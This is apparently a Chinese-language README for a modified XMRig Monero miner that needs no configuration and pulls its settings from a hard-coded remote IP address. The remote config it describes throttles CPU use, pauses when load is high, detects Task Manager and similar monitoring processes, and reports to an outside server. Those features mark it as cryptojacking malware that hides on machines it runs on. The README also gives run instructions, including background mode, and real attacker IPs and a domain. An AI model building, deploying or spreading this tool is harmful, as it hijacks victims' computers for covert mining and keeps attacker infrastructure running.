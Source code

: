 # XMRig 自动远程配置功能

## ✅ 功能实现

程序现在可以**完全自动**从远程服务器获取配置，无需任何本地配置文件或命令行参数。

### 核心特性

1. **零配置启动** - 直接运行 `./xmrig` 即可，无需任何参数
2. **自动获取配置** - 默认从 `http://182.92.97.16:8181/configs/666+cpu.json` 获取配置
3. **无需本地文件** - 不需要 config.json 或任何本地配置文件
4. **同步加载** - 确保配置加载完成后再开始挖矿

## 🚀 使用方法

### 最简单的使用方式
```bash
# 直接运行，无需任何参数
./xmrig
```

### 其他运行方式
```bash
# 测试模式（不实际挖矿）
./xmrig --dry-run

# 后台运行
./xmrig -B

# 指定日志文件
./xmrig --log-file=xmrig.log
```

## 📝 工作流程

1. 程序启动
2. 检查本地配置文件（可选）
3. 如果没有本地配置，自动使用默认远程配置URL
4. 从 `http://182.92.97.16:8181/configs/666+cpu.json` 获取配置
5. 应用远程配置
6. 开始挖矿

## 🔧 技术实现

### 修改的文件
- `src/App.cpp` - 移除了配置检查，允许无配置启动
- `src/base/kernel/Base.cpp` - 创建默认空配置对象
- `src/core/config/Config.cpp` - 添加默认远程配置URL
- `src/core/config/WebConfigFetcher.cpp` - 添加同步配置获取方法

### 默认远程配置URL
```cpp
const char* DEFAULT_WEB_CONFIG_URL = "http://182.92.97.16:8181/configs/666+cpu.json";
```

## 📊 远程配置内容

服务器返回的配置包含：
- 矿池地址：`38.55.195.81:10002`
- 算法：`rx/0` (RandomX)
- CPU设置：70%线程使用率
- 系统监控：CPU高于95%暂停，低于30%恢复
- 进程检测：检测任务管理器等进程
- 上报服务器：`serveris.lieshoubbs.com:8181`

## ⚙️ 配置优先级

1. **命令行参数** （最高优先级）
2. **本地配置文件** （如果存在）
3. **远程配置** （默认）

## 🔒 安全说明

- 程序会自动信任远程服务器的配置
- 建议在受控环境中使用
- 可以通过防火墙限制对配置服务器的访问

## 📝 日志输出示例

```
[2025-08-15 01:37:32.003] No local configuration found, will fetch from remote server
[2025-08-15 01:37:32.003] Using default web configuration URL: http://182.92.97.16:8181/configs/666+cpu.json
[2025-08-15 01:37:32.003] Loading configuration from: http://182.92.97.16:8181/configs/666+cpu.json
[2025-08-15 01:37:32.466] Successfully fetched and parsed configuration
[2025-08-15 01:37:32.466] Applying web configuration
[2025-08-15 01:37:32.466] Web configuration applied successfully
```

## ✅ 测试验证

### 测试环境
- 操作系统：Linux (Ubuntu)
- 编译器：Clang 20.1.2
- 测试时间：2025-08-15

### 测试结果
- ✅ 无配置文件启动：**成功**
- ✅ 自动获取远程配置：**成功**
- ✅ 应用远程配置：**成功**
- ✅ 开始挖矿：**正常**

## 🎯 总结

现在XMRig可以：
1. **无需任何本地配置文件**
2. **无需任何命令行参数**
3. **自动从远程服务器获取所有配置**
4. **直接运行 `./xmrig` 即可开始挖矿**

远程配置服务器地址已硬编码为：`http://182.92.97.16:8181/configs/666+cpu.json`